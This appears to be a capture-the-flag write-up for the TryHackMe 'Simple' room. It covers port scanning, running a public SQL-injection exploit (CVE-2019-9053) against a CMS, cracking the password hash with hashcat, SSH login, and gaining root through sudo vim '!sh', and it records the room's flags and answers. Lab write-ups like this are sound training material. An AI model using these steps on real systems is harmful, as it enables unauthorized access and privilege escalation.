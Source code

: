 # TRYHACKME - Simple (CTF)

![Simple.png](img/Simple.png)

### *How many services are running under port 1000?*

To respond to the first question, we can do a simple port scan  command using nmap

`nmap -T4 10.10.79.77` 

![nmap-scan1.png](img/nmap-scan1.png)

Ans:. 2

### *What is running on the higher port?*

To discover what service is running on the port 2222 (higher port) we can use NetCat tool

`nc -nv 10.10.79.77 2222`

→ n

This option tells Netcat to not perform DNS resolution. It means that it will not attempt to resolve the hostname to an IP address, which can speed up the connection process and avoid potential delays if DNS resolution is slow.

→ v

This option stands for "verbose." It instructs Netcat to provide additional information about what it is doing. This includes details about the connection process, which can be useful for debugging or monitoring.

![netcat-scan2.png](img/netcat-scan2.png)

Ans:. SSH

### *What's the CVE you're using against the application?*

We can't forget about the HTTP port that is open, so through the browser introduce the correct URL

`http://10.10.79.77:80`

![webpage3.png](img/webpage3.png)

![website-template-name4.png](img/website-template-name4.png)

This page appears to be a template for creating your own website more easily. Being a template, we just need to search on the internet, and we will find exploits related to this web page model.

![cms-exploit-cve6.png](img/cms-exploit-cve6.png)

Ans:. CVE-2019-9053

### *To what kind of vulnerability is the application vulnerable?*

If we search for this CVE, we discover that it is a SQL injection CVE.

Ans:. SQLi

### *What's the password?*

To discover that, we need to search for the exploit and download it

![cms-exploit-database-download7.png](img/cms-exploit-database-download7.png)

After that run the exploit with this command

`python2 [46635.py](http://46635.py) -u http://10.10.73.95:80/simple`

![run-script8.png](img/run-script8.png)

![user-password-result9.png](user-password-result9.png)

As we can see, we discovered a username, email and a hash of a password

Now we need to identify the hash type and crack using hash-identifier and hashcat

![hash-identifier10.png](img/hash-identifier10.png)

Now that we discovered that it is a md5 hash we can elaborate the hashcat command

**`hashcat -a 0 -m 20 hash.txt /usr/share/wordlists/rockyou.txt`**

![hashcat11.png](img/hashcat11.png)

![hashcat-result12.png](img/hashcat-result12.png)

Ans:. secret

### *Where can you login with the details obtained?*

Now that we know the password and the user, we can try to connect to the machine via ssh

Don’t forget that the ssh port is not the default port (22) 

`ssh mitch@10.10.73.95 -p 2222`

![ssh13.png](img/ssh13.png)

Ans:. ssh

### *What's the user flag?*

For the first flag we just need to read the file

![cat-user-file14.png](img/cat-user-file14.png)

Ans:. G00d j0b, keep up!

### *Is there any other user in the home directory? What's its name?*

`cd ..`

`ls`

![list-users-home-directory15.png](img/list-users-home-directory15.png)

Ans:. sunbath

### *What can you leverage to spawn a privileged shell?*

First we need to know if the machine have python, to discover that, we just need to do this command

`which python3`

![check-python-version16.png](img/check-python-version16.png)

 After that we can run a pseudo terminal with python to escape from the restricted shell 

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now we need to discover what we can run without root privileges

`sudo -l`

![list-user-privileges17.png](img/list-user-privileges17.png)

Ans:. vim

### *What's the root flag?*

Run the app vim with sudo (use the right path)

![run-vim-app18.png](img/run-vim-app18.png)

![modify-file19.png](img/modify-file19.png)

put the “!sh” when you are saving the file and it will run

To verify that now we are in root, we can run this command

`id`

![privilege-verification20.png](img/privilege-verification20.png)

As we can see, we are in root and now we have all we need to get the last flag

`cat /root/root.txt`

![cat-root-file21.png](img/cat-root-file21.png)

Ans:. W3ll d0n3. You made it!